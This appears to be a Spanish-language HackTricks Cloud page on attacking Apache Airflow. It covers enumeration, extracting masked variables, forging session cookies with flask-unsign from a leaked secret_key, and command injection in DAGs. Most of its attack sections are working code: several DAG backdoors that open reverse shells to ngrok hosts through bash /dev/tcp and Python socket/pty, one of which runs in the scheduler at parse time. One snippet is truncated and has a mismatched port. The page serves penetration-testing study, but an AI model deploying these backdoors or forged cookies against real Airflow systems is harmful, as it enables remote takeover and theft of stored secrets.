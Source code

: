 # Seguridad de Apache Airflow

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

### Información Básica

[**Apache Airflow**](https://airflow.apache.org) sirve como una plataforma para **orquestar y programar tuberías de datos o flujos de trabajo**. El término "orquestación" en el contexto de las tuberías de datos significa el proceso de organizar, coordinar y gestionar flujos de trabajo de datos complejos que provienen de diversas fuentes. El propósito principal de estas tuberías de datos orquestadas es proporcionar conjuntos de datos procesados y consumibles. Estos conjuntos de datos son utilizados extensamente por una multitud de aplicaciones, incluyendo, pero no limitado a, herramientas de inteligencia empresarial, modelos de ciencia de datos y aprendizaje automático, todos los cuales son fundamentales para el funcionamiento de aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando algo** (evento, cron) **suceda**.

### Laboratorio Local

#### Docker-Compose

Puedes usar el **archivo de configuración de docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno docker completo de apache airflow. (Si estás en MacOS asegúrate de darle al menos 6GB de RAM a la VM de docker).

#### Minikube

Una forma fácil de **ejecutar apache airflow** es ejecutarlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o puedes encontrar configuraciones débiles en su lugar:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC de Airflow

Antes de comenzar a atacar Airflow, debes entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataques

#### Enumeración de la Consola Web

Si tienes **acceso a la consola web**, podrías acceder a parte o toda la siguiente información:

* **Variables** (Información sensible personalizada podría estar almacenada aquí)
* **Conexiones** (Información sensible personalizada podría estar almacenada aquí)
* Acceder a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como el **`secret_key`** y contraseñas podría estar almacenada aquí)
* Listar **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

#### Recuperar Valores de Variables

Las variables pueden ser almacenadas en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos**, puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Airflow por defecto mostrará el valor de la variable en la GUI, sin embargo, de acuerdo a [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/), es posible establecer una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Sin embargo, estos **valores** aún pueden ser **recuperados** a través de **CLI** (necesitas tener acceso a la base de datos), ejecución de **DAG** **arbitrarios**, **API** accediendo al endpoint de variables (la API necesita estar activada), y **¡incluso la propia GUI!**\
Para acceder a esos valores desde la GUI, simplemente **selecciona las variables** que deseas acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **bruteforce** al **valor oculto** utilizando el **filtro de búsqueda** hasta que lo obtengas:

![](<../../.gitbook/assets/image (152).png>)

#### Escalamiento de Privilegios

Si la configuración **`expose_config`** está establecida en **True**, desde el **rol Usuario** y **hacia arriba** pueden **leer** la **configuración en la web**. En esta configuración, aparece el **`secret_key`**, lo que significa que cualquier usuario con esto válido puede **crear su propia cookie firmada para suplantar cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE en el trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se **guardan los DAGs**, puedes simplemente **crear uno** que te enviará un **reverse shell.**\
Ten en cuenta que este reverse shell se ejecutará dentro de un **contenedor de trabajador de airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE en el programador de Airflow)

Si configuras algo para que sea **ejecutado en la raíz del código**, en el momento de escribir esto, será **ejecutado por el programador** después de un par de segundos de colocarlo dentro de la carpeta del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Creación de DAG

Si logras **comprometer una máquina dentro del clúster DAG**, puedes crear nuevos **scripts de DAG** en la carpeta `dags/` y serán **replicados en el resto de las máquinas** dentro del clúster DAG.

#### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI, puedes **pasar argumentos** a él.\
Por lo tanto, si el DAG no está correctamente codificado, podría ser **vulnerable a la Inyección de Comandos.**\
Eso es lo que ocurrió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **comenzar a buscar inyecciones de comandos en DAGs** es que los **parámetros** son **accedidos** con el código **`dag_run.conf.get("param_name")`**.

Además, la misma vulnerabilidad podría ocurrir con **variables** (ten en cuenta que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables son **accedidas con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, podrías realizar una inyección de comandos.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
